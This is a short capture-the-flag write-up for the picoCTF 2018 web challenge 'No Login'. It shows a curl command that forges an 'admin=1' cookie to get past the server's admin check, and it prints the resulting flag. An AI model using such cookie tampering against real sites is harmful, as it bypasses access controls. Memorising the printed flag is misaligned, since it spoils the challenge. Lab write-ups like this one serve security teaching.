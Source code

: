 # No Login (web, 200pts)

> Looks like someone started making a website but never got around to making a login, but I heard there was a flag if
> you were the admin. http://2018shell.picoctf.com:33889

If you navigate to `/flag`, you get the message:

```
I'm sorry it doesn't look like you are the admin.
```

Since you can't login (or logout), the server is probably checking for either an admin cookie or query string parameter.

Set the cookie `admin=1;` and make a request - the flag is in the HTML output:

```
$ curl -H 'Cookie:admin=1;' http://2018shell.picoctf.com:33889/flag
...
<b>Flag</b>: <code>picoCTF{n0l0g0n_n0_pr0bl3m_26b0181a}</code>
```

